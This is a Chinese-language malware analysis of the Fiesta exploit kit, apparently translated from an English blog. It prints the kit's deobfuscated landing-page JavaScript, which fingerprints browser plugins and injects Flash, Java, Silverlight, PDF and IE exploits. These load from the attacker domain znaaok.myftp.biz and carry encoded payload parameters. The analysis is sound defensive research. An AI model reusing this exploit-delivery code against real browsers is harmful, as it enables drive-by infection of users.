# 深入分析 Fiesta Exploit Kit

2015/02/05 17:44 | [爱小狐狸的小螃蟹](http://drops.wooyun.org/author/爱小狐狸的小螃蟹 "由 爱小狐狸的小螃蟹 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 前言

* * *

from:http://blog.0x3a.com/post/110052845124/an-in-depth-analysis-of-the-fiesta-exploit-kit-an

在这个文章中，我将一步步介绍 Fiesta Exploit Kit 是如何工作的：如何重定向，攻击感染客户端，包含一个 Flash exploit,Java exploit,PDF exploit，在最后解密他的 payloads.

第一步是感染我的虚拟机，幸运的是重定向页面仍然还在



在页面结束前，插入了一小段代码，有一点混淆，但是解码很简单：


exploit kit 在 znaaok.myftp.biz 域名商，当时指向 ip 是 92.63.87.16，在 VirusTotal passivedns 中查询该 IP，有很多相似的域名



所有域名活跃时间都非常短暂，经常轮换。

## 0x01 The landing page

* * *

继续分析，虚拟机的浏览器每个页面都被嵌入 javascript 代码：


这个案例当中，exploit 是一个 Flash exploit，MD5 值为[f77e25d5a04d8035d49a27d1b680e35d](https://www.virustotal.com/en/file/45324ee6bd3f1c94df15e3c4065aff0f8f6a8e991ecd1880a9b9ec1f022d2acb/analysis/)

在 VirusTotal 提交样本的时候 57 个杀毒软件中只有 3 个可以识别出。

从 Fiddler 的请求中可以确定下面的顺序：

```
76：客户端访问页面页面
80：客户端下载 flash exploit
81：客户端溢出成功后执行 payload 
```

再重新开始，当用 sublime 打开页面的时候，我立刻认出这是我 2013 年就见过的。除了上面的一些随机文本字符，JavaScript 的混淆是一样的：



进行反混淆的工作：

```
1\. 搜索 Decrypter 字符串
2\. 解密所有使用过的函数跟字符串
3\. 替换所有使用的变量
4\. 删除所有被分割的字符串(如：var a = ‘from’+ ‘Char’ + ‘Code’)
5\. 清理代码(删除未使用的变量)
6\. 给变量函数易懂的命名 
```

第一步找解密函数：



又去的是 Fiesta 没有改变解密函数，只是换了 key，也可以在 messop()函数中看到


现在怎么从哪些混淆的代码中解码呢，很简单，解密函数的的 顶部实际上是来自 bonyv()函数，底部是 seam9j 函数，给他们换个易懂的名字。

现在可以把所有调用名字为 messop()函数替换一遍：


正如你所看到的，开头大部分声明的变量都是全局变量。解密所有的字符串之后，我们开始替换全局变量（比如 lintl 变成 window.document 等使代码更易读一些），整理之后，页面的结构更清晰了：

```
function CheckWindowsInUA() {
    return (/Win64;/i.test(window.navigator.userAgent) || /x64;/i.test(window.navigator.userAgent));
}

function InjectScript(script) {
    var injected_element = window.document.createElement("div");
    window.document.body.appendChild(injected_element);
    injected_element.innerHTML = script
}

function InjectIframe(url) {
    var injected_iframe = window.document.createElement("iframe");
    injected_iframe.frameBorder = '0';
    injected_iframe.width = '10';
    injected_iframe.height = '10';
    injected_iframe.src = url;
    window.document.body.appendChild(injected_iframe);
    return injected_iframe
}

function isStringContainingNumber(item) {
    return (typeof item == 'string' && /\d/.test(item))
}

function ExtractVersionNumbers(data) {
    var double_num_regx = /[\d][\d\.\_,-]*/;
    var extracted_vnumbers = isStringContainingNumber(data) ? double_num_regx.exec(data) : null;
    return extracted_vnumbers ? extracted_vnumbers[0].replace(/[\.\_,-]/g, ',') : null
}

function GetTridentVersion() {
    if (!/Trident\/(\d)/i.test(window.navigator.userAgent)) {
        return 0
    } else {
        return parseInt(RegExp.$1)
    }
}

function NormalizeVersionInfo(data, vlength) {
    var templ_array = ['0', '0', '0', '0'];
    var versioninfo = ExtractVersionNumbers(data.replace(/\s/g, '')).split(',');
    for (var i = 0; i < versioninfo.length; i++) {
        if (!(/\d/.test(versioninfo[i]))) {
            versioninfo[i] = '0'
        }
    }
    return versioninfo.concat(templ_array).slice(0, vlength)
}

function IsActiveXAvailable() {
    return (typeof window.ActiveXObject != 'undefined');
}

function PadVersionInfo(vinfo, padding_size, prepend_padding) {
    while (vinfo.length < padding_size) {
        vinfo = prepend_padding ? '0' + vinfo : vinfo + '0'
    }
    return vinfo
}

function CreateFirstAvailableActiveXObject(obj_array) {
    for (var i = 0; i < obj_array.length; i++) {
        try {
            var obj = new ActiveXObject(obj_array[i]);
            if (obj) {
                return obj
            }
        } catch (exc) {}
    }
    return null
}

function GetAdobeFlashVersion() {
    try {
        if (GetTridentVersion() == 7 || IsActiveXAvailable()) { // Is it MSIE 11 or is ActiveX available
            var flash_obj = CreateFirstAvailableActiveXObject("ShockwaveFlash.ShockwaveFlash");
            if (flash_obj) {
                var versioninfo = NormalizeVersionInfo(flash_obj.GetVariable("$version"), 4);
                var padded_versioninfo = PadVersionInfo((versioninfo.slice(0, 3).join('')), 6, false);
                return [padded_versioninfo, versioninfo[3]]
            }
        }
    } catch (exc) {}
    return null
}
adobeflash_version_info = GetAdobeFlashVersion();

// Adobe Flash Player CVE-2014-8439
function AdobeFlashExploit_CVE20148439() {
    if (adobeflash_version_info != null && adobeflash_version_info[0] >= 120000 && adobeflash_version_info[0] <= 150000 && (adobeflash_version_info[0] != 150000 || adobeflash_version_info[1] < 189)) {
        var exploit_params = "piw6lxXpfkwegJaaRh9yYgEZVLcA55HsZ68S1_F1pgbBWY2pBlgF1KzoEp2_Vrzpm4QERd5HhfMQnX2YZU87ekOFPqqWr7w5gzAQpubXJNPmHRV6MQ4Kx4z5VnkuHXgvl9TEePJvZ2GWcTfa-Jns94w-fb9PKnu1OTZaAEIEUAkkUEPodUhfqXslvZJWGXBPjofZyQo5vZ-14ChOmHzf8tWNnRVXFj_bM1kY8HoQ81LvfCZAf-nWvUZAHoR8Jb9FuniDwzmiGv2HKtvV6eef-RgXRDczxIcnw5Tna20sd09SJIY3JWo7Ujo3k3U4gna2J4c2RXhKanqwSkaRwp6rt5lz4OUl2tdtRol2OdtwaG8n0P8EouyzUGHCNKZ1ClbsunXhw6_MTUhdCeNlmxiuqk65st34XERp7FIyoC9k6c5kxtoq_6cNfk8zAZLtIO2QfKm7-H2WjB3wl1i-8PkbsSx7gF2RyVPM7oLJWtHwlbfE03JHtk04dCyQaxDzONPHfvVQcGMlvD6-1TMBctB3Zmjtj9zaa8BBaMJM7ivmOqKThtGQJLil2u8XMjH0ivihNjXoYYcMNynbkB9P7VL3wvRSbks3I6f_6FWX9xp3UrejTGFjB-dDcx4lxu0Mg6Gx1PPDG6krSynCyvyPMr_DNt3GE3lgIpchO2Md7UYHb-0zbDvGQ-mwVJ58cZbi62lXVFY2ZgpJIpLgNqiia44rAIbJIvxGCt00fTn4PTOAdRDHq9XCB1RKQ_wGohmAL5ztpg52RUaYa71LyG5yuteeu7kz2ph8BpRSsdvP3dqjRluSk224GVJdBx_PZ9Qnr4yqrYica48cyGlp6JN89Jb0v9B5r6KFtlia-K9_kfkKYReic_v6GKPVLRfC0Eq8RdX6tmckvWIdfBnxjRcM-HrL3zIL3_IL39sieJ-SS1OogSemH-2uH-2iOio3F7S6VHfaxxKB7cdR3HG-kaFqPnpmuaaw3Ip2k_F8folcYRKm9kCPYvtlSutX_bdEPBA6A2ZoE90adMKiiJusiJDriJdliGmpi5g-tRleE12-CDTTxH8hx1RECR-JuaLVgheHWPZ7c0z6dSvp2-bOaLzrTSNuEWODpVITQ3O7CNZ9C4mbg4n5ZoXeC0CIzdV75R1Sk0XG5Adwoy7GrG8ZbmvDeUDM-9O7Arh1BL1k4bm7W6-KU3zHsvhrh9yN3KU2kQb_qDYsvv3V_qVEzybFz9tZxRHHUvgmfGQWUirBU4PBbnJ1uCCBV8YrgOncBNdSjJVTHJoFjkaj0JUbJkR0f4SkGIxkwjxkUyxkdyb7wYwzAuracpjrApTQfOy13sCQWTaXHpvLRkkGxz0Uy3GSAZ2pTuIReLzpCNpRoRsr6LyF2EK1Cm-1JFzCdwMOAfz-vGbDEKFKnetJoHSgpPSz95K5ucMytnRAqJkpLL2-xsrpO4xzNTvt0l9qprz5KHep8F7dOaAvNGLpW7kvW6LTxNjIPb69bYOIDS7WVwrrbS7X2H6f5HqcZzZdOQKeCBuSCqWiM5AsVaAsMcLNM4hSIltlMvZWMTWHD4lHMTlKMTly2SlJkwlTH4LYHyDSVTtSBM5mju8To61rciGw8DpauEsb-Mh91Ib5oiFXzOenZ4Se24gJGFYNqOk58i0Wm6ePAnNNmntsEe2zE8PRH0SWZmxpIhm6eT-rV4c-QlKrOsJcDP4lqNQbuMu3_K6xb6pNkq9zwFNLrLDjgR8v-UMWNjGimNfBEtjqQsjqQsjFD4mkrbWVPaU1IQ53gG--JQrclHKyzNcRWJu1LJeSDtZRIsh4gO5GxF5KCTrGxvllxJIQCBrzMBLtxBMwIBhsZQqwZyZeOvkcZ4ZwIvCeMqtUMtxaMtWKMOOaISW7MBWNCS-WqcWYqFOyOsCv";

        var exploit_inject_script = "<object width=10 height=10 id='swf_id' type='application/x-shockwave-flash'><param name='movie' value='twQHU'/><param name='allowScriptAccess' value='always'/><param name='FlashVars' value='buys0=r_SET&softq='/><param name='Play' value='0'/></object>";
        exploit_inject_script = exploit_inject_script.replace('r_SET', exploit_params);

        var exploit_url = "http://znaaok.myftp.biz/ai_qkvu2/1f247c512126d3ff04500b0f005802090150020f0301050a0452500202515409";
        exploit_url = [exploit_url, adobeflash_version_info[0], adobeflash_version_info[1]].join(';'); // Insert flash major and minor version numbers in URL

        exploit_inject_script = exploit_inject_script.replace('twQHU', exploit_url); // Insert payload URL
        InjectScript(exploit_inject_script);
    }
}
AdobeFlashExploit_CVE20148439();

// Adobe Flash Player CVE-2014-0497
function AdobeFlashExploit_CVE20140497() {
    if (adobeflash_version_info != null && adobeflash_version_info[0] >= 110000 && adobeflash_version_info[0] < 120000) {
        var exploit_params = "Uty7aGiUrcYF-SKBlUybGiX686yCWAJYkL2tmkcj2hQ6Ter1eQxHH4Ox79uRvZ7Ysf6TNwwD9jGIyAsRUo7uhbiATr4LFUH9Y1MS2cYV7INrs7tmRr-pqrCIvFJ71qMTM19LJqkTyDecQ9pz2kCODWKrBfNdLSL-jPcqt7jVZTqSZarovw2fxsylV_kWfFZ-99AavMpGyB4jQVvpMqxz4HVRS4xQrs_asQkzKVoSK5sTWHiAWyKWCziAxkr8IEJlSFD-WI2_Z5hGBzkSv4TzqxxQH9bf6sZp_-JpgBVQvFFt3N7T3_jjeYjTIs0dNq6AnASAC68b5IVtlJ-_WoR-pQga8IoKGCdsHylRpYtNgjH0BOqEbYpzeLtCgqS15FsWc0ImzK-UB02_E4HxM1R7-JsIMhRXB6RYCUIjAq98YiW8g8-MD3T1G2C2KWdDktmYGF2O2bmsVZFJwxG-uLLbMct7YpdRVvdpCwu45rwNOLiL36ZgqgEXYaeP3j22L4LTTGCYCyged2SLY9xBCzQ3jiUtZRQa1lB61QJ0wev8JVsq18cyObjKbGxnlpeVYNDmgpIn14BUR7KyEZIvICcT_5z0f_ZTcXgixd7VYBxPRQ7CsjyWlyAFuy6-qrp6NZKjHRLEh9Jux7xAM5SPy_2DizdG5K9gcSZ0A5AIeYb6Ny3FNBtNvyXHvDz3utZ2-8N1v9s3U8ow7oN0RHGage3OOngVcDCo7n0nb-nJh-OxE7MGNfmUW5UlMe7NcuPMH96cSo43MutQlyI-kKkdVz9jky52Gc-BXc_tMw4-JwF1NnjtEZIX_qOyPQCQLotvtA79tEmtlmhtkKnINkM3QkDV3TLeFATqpribq-9iEakq177_CWt6_XMVZ5uC4b48atIZrQBF4gX_gZxjI-y6rq2evtVevNgevEsth8-hxbOl7m7zuyIeuyIwD9ETpiOAvIMBqJNazoLPrquLG6RFmIaDk6pHvWViuNqdbYKW1Glrhgh31xvrVYvyQjA9b-XA97Bn61UBPQG82kRW2k_-2kEKNKRxNLIrpGlN5b2PdqTqiCVii5UEd70JcUgVNOHHhzSOuG6ZPoeIiju7zx-OJwA75littbf00GsZ78c5diDa-pP94emjdF_5_lruCbC3IJjvCquJDXyvfKD6FikDB0_MqTz7OkR1XqoS8VDv7jrbC6H6Ox1-EfFGydRiIPZRxtsWVnEfGDCDf7IkfT1Cs-r2W5OFbEtIWeryWmPyctJf2Hhypt9-jPDZLuABT0pJx0xkTUtxO8Vy-JugWe7hhngh_XghWA0hJAYb_UHcMw-ZZ4udM4sXgPFYyX_Xh07Q1K5-aCJvSgUMMEjzQBOprdJRhPrp7h0Rz9smxHyliGKfUSpfT05UPUPsKZ5rVVcm7CH5JMawbPZ0OL6ShvwI5T1dxMkFrQdKkCTJtFeBwS7j66QXLQsI2nvMAc69QLtaDnIGg8mIBDKGBHtHgswjhKdkgs8jl4J7QYj0g4lDwbkLuZtNUklKplcRqFAAqdt9kijWHIjWDRD4D7OzLbPKDW_7O92wlYgwOaIHOaIZewIeRcO5usMSuKIY5t5YLyFuTHRHFn0uTWJJCfZBXVVooiGhznUua0bQ15OUIYHJeY3ehSGFdvOPKURnsJ65K6Jrs6WW72PSoO2PWEosNfBx2V4tE9T-QYnrVWL0MeiNF1_SmWv958ARGyeC2JEJIdKQoPJ-twLx2Z_Gp85sbPpaAsF8ez4MVeRMVe-dlYU_ivlOE9EZ0ltFp7U4lKCfJokpWfOPzXDX8Pqz_HrPVb1oxHNpWNbpWyyotBjwtQKSEvjFuqISEtOXutxfLslXDoOXDROtD_Wk1R5l1HCbVwPaVH17ObvGZrNyOxLsW-jY6olt6sI6Ae1l";

        var exploit_inject_script = "<object width=10 height=10 id='swf_id' type='application/x-shockwave-flash'><param name='movie' value='xVpWi'/><param name='allowScriptAccess' value='always'/><param name='FlashVars' value='talkh=P69jl&diadx='/><param name='Play' value='0'/></object>";
        exploit_inject_script = exploit_inject_script.replace('P69jl', exploit_params);

        var exploit_url = "http://znaaok.myftp.biz/ai_qkvu2/44f7aa1e1db111d0000d510c565a065d0402560c5503015e010004015453505d";
        exploit_url = [exploit_url, adobeflash_version_info[0], adobeflash_version_info[1]].join(';'); // Insert flash major and minor version numbers in URL

        exploit_inject_script = exploit_inject_script.replace('xVpWi', exploit_url); // Insert payload URL
        InjectScript(exploit_inject_script)
    }
}
AdobeFlashExploit_CVE20140497();

// Get the highest available Java version
function GetHighestJavaVersion() {
    try {
        var jvms = null;
        var java_object_class_ids = ["clsid:CAFEEFAC-DEC7-0000-0001-ABCDEFFEDCBA", "clsid:CAFEEFAC-DEC7-0000-0000-ABCDEFFEDCBA"]; // Initiates the Java Deployment Toolkit
        for (var clsid_i = 0; clsid_i < java_object_class_ids.length; clsid_i++) {
            var java_object = window.document.createElement("object");
            java_object.setAttribute("classid", java_object_class_ids[clsid_i]);
            if (typeof java_object["jvms"] != 'undefined') {
                jvms = java_object["jvms"];
                break
            }
        }
        if (jvms != null && jvms.getLength() != 0) {
            var version = 0;
            for (var jvm_i = 0; jvm_i < jvms.getLength(); jvm_i++) {
                var jvm_verion_info = NormalizeVersionInfo(jvms.get(jvm_i)["version"], 4);
                var c_version = parseInt(jvm_verion_info[1].concat(PadVersionInfo(jvm_verion_info[3], 2, true)), 10);
                if (c_version > version) { // Check if this version is higher than the previous
                    version = c_version
                }
            }
            return version
        }
    } catch (exc) {}
    return null
}
java_version = GetHighestJavaVersion();
java_enabled = window.navigator.javaEnabled();

// Java Runtime Environment CVE-2013-2465
function JavaExploit_CVE20132465() {
    if (java_enabled) {
        if ((java_version && java_version > 630 && java_version < 722) || (!java_version && java_enabled)) {
            var exploit_inject_script = "<applet width=10 height=10><param name='cent' value='http://znaaok.myftp.biz/ai_qkvu2/44075e88a64ef0cd574c550c025e0f000402000c010708030100520100575900;1;3@@'/><param name='jnlp_href' value='http://znaaok.myftp.biz/ai_qkvu2/49efdc53b7b51fa25e57095d5358020b040f555d50010508010d07505151540b'/></applet>";
            if (java_version && java_version >= 710) { // Since 7u10 bundling has to be selected for self contained applications (https://blogs.oracle.com/talkingjavadeployment/entry/packaging_improvements_in_jdk_7)

                exploit_inject_script = exploit_inject_script.replace("</applet>", "<param name='javafx_version' value='2.0+'/></applet>")
            }
            InjectScript(exploit_inject_script)
        }
    }
    return
}
JavaExploit_CVE20132465();

// Java Runtime Environment CVE-2012-0507
function JavaExploit_CVE20120507() {
    if ((java_version && java_version < 631) || (!java_version && java_enabled)) {
        // Hex encoded string, contains non-ascii characters
        var exploit_param = "aced0005757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c020000787000000002757200085b4c6c6170736b3bfe2c941188b6e5ff02000078700000000170737200306a6176612e7574696c2e636f6e63757272656e742e61746f6d69632e41746f6d69635265666572656e63654172726179a9d2dea1be65600c0200015b000561727261797400135b4c6a6176612f6c616e672f4f626a6563743b787071007e0003";

        var exploit_inject_script = "<applet archive='http://znaaok.myftp.biz/ai_qkvu2/5b76b7bdcefb3f0d5410560d550c555c0554070d5655525f005655005705035c' code='vailt' width=10 height=10><param name='ptas' value='http://znaaok.myftp.biz/ai_qkvu2/5230fd54a64ef0cd564a560b515f020c0504030b5206050f000651065356540c;1;2@@'/><param name='hamm' value='JRgN_'/></applet>";

        exploit_inject_script = exploit_inject_script.replace('JRgN_', exploit_param);
        InjectScript(exploit_inject_script)
    }
    return
}
JavaExploit_CVE20120507();

function PadNumber(number) {
    return (number < 10 ? 0 : '') + number.toString()
}

function FormatVersionString(vdata) {
    return (vdata[0] + '.' + vdata[1] + '.' + vdata[2] + PadNumber(vdata[3]) + PadNumber(vdata[4]))
}

function IsSpecifiedVersionSupported(obj, v_array, index, new_vnumber) {
    var nversion = v_array.slice(0);
    nversion[index] = new_vnumber;
    return obj.IsVersionSupported(FormatVersionString(nversion))
}

function GetSilverlightVersion() {
    var sl_plugin = null;
    var sl_descr = null;
    try {
        if (GetTridentVersion() == 7 && (sl_plugin = window.navigator.plugins["Silverlight Plug-In"])) { // MSIE 11 available and Silverlight
            sl_descr = sl_plugin["description"]
        } else if (GetTridentVersion() == 7 || IsActiveXAvailable()) { // MSIE 11 available and ActiveX
            var sl_obj = CreateFirstAvailableActiveXObject(["AgControl.AgControl"]);
            var supported_version = [1, 0, 1, 1, 1]; // Base version
            var version_supported = 0;
            var highest_version = [6, 2, 9, 12, 31]; // Highest version we go to
            if (sl_obj && sl_obj.IsVersionSupported(FormatVersionString(supported_version))) { // Lowest version is available

                // Following section bumps version numbers untill it hits one not supported
                for (var i = 0; i < highest_version.length; i++) {
                    for (var version_num = supported_version[i] + (i == 0 ? 0 : 1); version_num <= highest_version[i]; version_num++) {
                        if (!IsSpecifiedVersionSupported(sl_obj, supported_version, i, version_num)) {
                            break
                        }
                        version_supported++;
                        supported_version[i] = version_num
                    }
                }
                if (version_supported) {
                    sl_descr = FormatVersionString(supported_version)
                }
            }
        }
        if (sl_descr) {
            return NormalizeVersionInfo(sl_descr, 3).join('')
        }
    } catch (exc) {}
    return null
}
silverlight_version = GetSilverlightVersion();

// Microsoft Silverlight CVE-2013-0074
function SilverlightExploit_CVE20130074() {
    if (silverlight_version >= 4050401 && silverlight_version < 5120125) {
        var exploit_inject_script = "<object data='data:application/x-silverlight-2,' type='application/x-silverlight-2' width=10 height=10><param name='source' value='j2VIH'/><param name='initParams' value='pave=YOsTWLl1BQAASYA0CB+FyXX3/9Bhw+jo////9pMbHx9BluySTLemQW6kT6dtf2hrTfebHB8f45boso78C/eZHB8fjbKO/O2Wz/ewHB8ftPTtpqZsLsina36rH3Uf90ccHx/3IRwfH4jgTAsjGW0rT0t1F3Xg4EwnRY78OE9Ldx8PHx9IdQZN4Ewjjkf8CpQYEKlXHlaSW5cXlBef4j9sHOFcsfdrHR8fjvxtLt+zmt9rSk9I4ExfSUhI4ExbRx7Z9+ceHx+O/Ep1FEdXa1BPn2SxHmsO96YeHx+a32o84Ax5IvsdavufZPIfahJI9ywfHx+a32oU4Vzy9wweHx+O/NZHsh7Z9LuIkmxnSbMmIWrk2BkkLh8fQffgHh8f3HUfdeHgTBtJSEqW+qZEizSL94sdHx+O/GFOkkyHTeBMK5rfa22UTyOW2ZbYHJsPnx8fH5QX/H9/HG8TLt+G5vfJHR8fauee5UFupE9+axqc3wv0wOBvDx7RLtZWXrKa32sqSZJrGB0u34bn97UdHx9q557lSGvf60Fq/kEe4ZQrkUaUTiOUWw4DHFMOMx7XJtFtGybZaRcu39ZAQd0bH0mUag9JsprfauSY6EGSTIFNSeBMT478/05OTuBMU0bZHh9PSUjgTFtH2R9DSEhJmOGymt9q5HVgSeBML5IjGZJcsE9I4EwTdR9J4ErjnOcAaLf0u0lISpb6luGymt9q5ElIkmTxmOGzebSb32rmkmDhSOBMM0jgTFdBdSNGNtOW+E5ILt/stUCQGHVsd3Effh93bR9qH5Z4E6Zwii4Pp7APFLf3Sh4fH5ZYF3V6d3ofZx93ex8xH3d8H3IflngPlmgLprQ7yMinaf7w2Uj3NB4fH9ZAQdxISpb6dUtGNtOW5Zb4SC7f7LVAklAPdVuQHkhOT09PT09PT03gTDfWQNxISS7fT091Hk91HHUcSOBMB19rBleIsnUfS09JSOBMA5rfaxZI4Ew/SOBMO19BQNxJTJbhLt+G4dk2zh7ISE4uxIbh3JUbAR/dmRsJlxsBHRsJlRsZLRi1/fdGQERB3Eou1k6W/U5OTUlOpsKTvginsiHO3vebHx8fQprfanma4Gt7lFofdR9ISuBPL5rfakuUWBea32tST0tP91YfHx+JSUqUWh/gTxNGmt9qKLKNsi7PIllMS09qNLIuzybXajuyLs9PmOic9g/3feDg4E5IdR/gTBdGJtdqFeApSeBMM5jo9B0u30Lcph8PHx+a32odltd1X05PdR/gTA/cT/cXHx8fRvcoHx8f4P9ISUwu4HuUYC+UYBOUYAuW5C7fhpQgJuRrCJRoN5rpa+/m91YfHx+zaugm1ZRYD2r/REFA3H+UTyOW3JbZTxxbD2cu8lp/HEc/HCu0Lt+G5/cEHx8faucm1X5q9xxHOxCoM3QcbwNHHBuxlls7A37cs2wZI35tHTM/3tUSHt2b39x3c3ZxdB9DH1MfcB9oHx8fam1zcnBxH0N8cnsxemd6FkMxMUNxcGt6b357MXpnej8wfD98cG9mPzBGPz06TD0/PTpMPT85OT9sa35taz89PT89Okw9HzB8P2xrfm1rPz09Px/3cOTg4Ll0isDKtC6cZPXeY6eQEWqGpOn/Hx8fH0FupE9hkrtN02ERFB//xKJMX+DXg6DWMfNgx6CAql/rxUORTzTYEtFtf2hrHx8fH0AXpkTq12UnxMHJbR8fHx9IRFR8AYp0mHDjKDuW06LXAA+M9PV/mKQfHx8fHx8fH3dra28lMDBlcX5+cHQxcmZ5a28xfXZlMH52QG50aWotMC4sfih+KC96KXsrKnx5KX0qLSssL34vfCopL3wvKCp7Ly4vKiouL3wqKioqLy8qei8rLygvLC8uKisvKiouKnskKh8fHx8='/></object>";

        var exploit_url = "http://znaaok.myftp.biz/ai_qkvu2/2b6b367b48844f2e410e4059040d005a0254065907540759075654540604565a";
        exploit_url = [exploit_url, silverlight_version].join(';'); // Insert Silverlight version numbers in URL

        exploit_inject_script = exploit_inject_script.replace('j2VIH', jnv);
        InjectScript(pa)
    }
}
SilverlightExploit_CVE20130074();

// Microsoft Internet Explorer CVE-2013-2551
function MSIEExploit_CVE20132551() {
    var fut, om;
    var trident_version = GetTridentVersion();
    if (        !CheckWindowsInUA() &&
                (       trident_version == 6 || // Trident version 6, identifies Internet Explorer 10
                        trident_version == 5 || // Trident version 5, identifies Internet Explorer 9
                        trident_version == 4)) // Trident version 4, identifies Internet Explorer 8
    {
        InjectIframe("http://znaaok.myftp.biz/ai_qkvu2/40319b9a99f7cc915d555f0a0e590e590406030a0d00095a010451070c505859");
    }
    return
}
MSIEExploit_CVE20132551();

function GetAdobePDFVersion() {
    try {
        // If its MSIE 11 or ActiveX Controls are available instanciate PDF object, otherwise null
        var activex_obj = (GetTridentVersion() == 7 || IsActiveXAvailable()) ? CreateFirstAvailableActiveXObject(["AcroPDF.PDF", "PDF.PdfCtrl"]) : null;

        var pdf_obj = window.document.createElement("object");
        pdf_obj.setAttribute("classid", "clsid:CA8A9780-280D-11CF-A24D-444553540000"); // Initiates the 'pdf.ocx' ActiveX control
        pdf_obj.setAttribute("src", '');

        var version_string = null;
        try {
                // Get version of either one of the valid objects
            version_string = (activex_obj || pdf_obj).GetVersions()
        } catch (exc) {}
        if (version_string) {
            var version_extract = version_string.match((/=\s*[\d\.]+/g));
            var version = 0;
            for (var i = 0; i < version_extract.length; i++) {
                var c_version = parseInt(NormalizeVersionInfo(version_extract[i], 3).join(''), 10);
                if (c_version > version) {
                    version = c_version
                }
            }
            return version
        }
    } catch (exc) {}
    return null
}
adobepdf_version = GetAdobePDFVersion();

// Adobe PDF CVE-2010-0188
function AdobePDFExploit_CVE20100188() {
    var triden_version = GetTridentVersion();
    if (triden_version == 4 || triden_version == 5) { // Check for MSIE 8 or 9
        if ((adobepdf_version >= 800 && adobepdf_version < 821) || (adobepdf_version >= 900 && adobepdf_version < 931)) {
            var exploit_inject_script = "<object classid='clsid:CA8A9780-280D-11CF-A24D-444553540000' width=10 height=10><param name='src' value='irH3d'/></object>";

            var exploit_url = "http://znaaok.myftp.biz/ai_qkvu2/6b2f2de7ba83a9dc5a0b505d055f520f0654025d0606550c035650500756040f";
            exploit_url = [exploit_url, adobepdf_version].join(';'); // Insert Adobe PDF version numbers in URL

            exploit_inject_script = exploit_inject_script.replace('irH3d', exploit_url);
            InjectScript(exploit_inject_script);
        }
    }
    return
}
AdobePDFExploit_CVE20100188();

```

看一下 Fiesta 使用了哪些漏洞：

Adobe Flash

```
CVE-2014-8439: Adobe Flash Player before 13.0.0.258 and 14.x and 15.x before 15.0.0.239 on Windows and OS X and before 11.2.202.424 on Linux, Adobe AIR before 15.0.0.293, Adobe AIR SDK before 15.0.0.302, and Adobe AIR SDK & Compiler before 15.0.0.302
CVE-2014-0497: Adobe Flash Player before 11.7.700.261 and 11.8.x through 12.0.x before 12.0.0.44 on Windows and Mac OS X, and before 11.2.202.336 on Linux 
```

Adobe PDF

```
CVE-2010-0188: Adobe Reader and Acrobat 8.x before 8.2.1and 9.x before 9.3.1 
```

Java

```
CVE-2012-0507: Java SE 7 Update 2 and earlier, 6 Update 30 and earlier, and 5.0 Update 33 
CVE-2013-2465: Java SE 7 Update 21 and earlier, 6 Update 45 and earlier, and 5.0 Update 45 and earlier, and OpenJDK 7 
```

Silverlight

```
CVE-2013-0074: Microsoft Silverlight 5, and 5 Developer Runtime, before 5.1.20125.0 
```

Microsoft Internet Explorer

```
CVE-2013-2551: Microsoft Internet Explorer 6 through 11 
```

有趣的是，Fiesta exploit kit 完全专注的 IE 浏览器，检测到 Adobe PDF, Adobe Flash, Java 插件也只是用于 IE。

## 0x02 Following the flash exploit landing page trail

* * *

通过网络抓包可以确定虚拟机是被用的 FLash exploit 攻击，通过对比 URL 看到使用的是 CVE-2014-8439。

这个 CVE 最初由 kafeine 在 Angler exploit kit 中以 0day 的方式发现的。[CVE-2014-0569 (Flash Player) integrating Exploit Kit](http://malware.dontneedcoffee.com/2014/10/cve-2014-0569.html) [Out-of-Band Flash Player Update for CVE-2014-8439](https://www.f-secure.com/weblog/archives/00002768.html)

反编译 ActionScript 代码之后，我们找到一段脚本：


整理之后代码：



截图显示的不是很完整，有一个函数没有展示出来 LoadComplete 函数:


stage 2 的数据追加到 root/main 对象中，stage 2 实际上是另外一个 flash 文件，通过 addChild 函数，stage 2 flash 文件将会被激活，从内存当中 dump 出来解密的 stage 2 数据，我们可以看到 Flash 文件的头：


反编译这个 FLash 文件获得了大约 820 行的 ActionScript 代码，我不打算针对这个漏洞继续深入他是如何利用的，如果你想知道是如何利用的已经有人写过相关文章 [An interesting case of CVE-2014-8439 exploit](http://blogs.technet.com/b/mmpc/archive/2014/12/02/an-interesting-case-of-the-cve-2014-8439-exploit.aspx)

截图当中的 ActionScript 代码只是第一步打包加载的作用，第二步才是真正的利用漏洞获取执行权限，为了获得执行权限，垃圾收集器的

垃圾收集器内部有一指针指向一个 ITelemetry 对象，通过一个包含精心准备构造虚拟表的 ITelemetry 对象能够获得执行权限，修改虚拟表后的 ITelemetry，替换了正确的 ITelemetry 函数，指向了我们的 shellcode。

反编译完嵌入的 flash 文件（第二步中）之后，我们得到了一个简单的 as 脚本，发现了一个有趣的函数 initialization，代码引用目标网页上的一个变量，然后调用了一些函数：


如果我们跟踪 seatk 函数，看到了跟之前很类似的代码，是一个字符串解密函数：



看来 Fiesta 把同一个加密混淆的函数用在了很多地方，函数返回解码后的数据就是结合 ROP 链利用的 shellcode。

由于这个 flash 漏洞（CVE-2014-8439）是刚刚发现的，POC 并没有放出来，所以我不会泄露利用的细节。

现在已经知道了 Fiesta 现在的使用的攻击：

登陆页面给使用哪个 shellcode/payload 提供信息 exp 有打包来应对检测 第 3 阶段的 exp 显示他是一种可以很容易置换的框架

接下来讲一下针对 Java 的 exp

## 0x03 JAVA payload 解密

* * *

该 java 的 exp 样本基于 CVE-2013-2465

[5c6c4a6a4c5adc49edabd21c0779c6e3](https://www.virustotal.com/en/file/5e0e2faf9e65feb14742f6b1fd403e3b51d17242b344674f9fbbda177dcb0985/analysis/)

我们可以从登陆界面发现，‘JavaExploit_CVE20132465’ 功能，对 java applet 进行如嵌入。

在我们反编译 jar 包之后我们可以得到一份存在一些混淆的 java 源码，审查源码我们可以发现，其中一个功能在于下载 payload 并执行。对 java 源码进行处理后如图片所示我们可以一份清晰的源码。



让我们先看函数的顶部，我们可以发现 exp 似乎对不同的 payload 提供了支持。

下载 payload 之后读取前 256 个字节，其中包括了 xor key 以及 payload 的有效部分，我们可以在虚拟机中分析这 256 个字节的差异。



其中我们可以看到关键的 java 代码在于 “Decrypt” 功能，用于 payload 的解码，在还原 java 源码之后，这部分函数如下图所示：



代码的第一部分使用两个 index 把需要解密的每字节数据递增，两个 index 中 key 的值被交换，相加掩藏在形成为 XOR 运算的关键位置。

这个 XOR 解密用在整个 PE 数据回收中，从前面的代码段中还可以看到 payload 的文件名是纯数字的为当前的计算机的时间。

在将 java 代码转换成 python 后我们可以很容易的解码他。


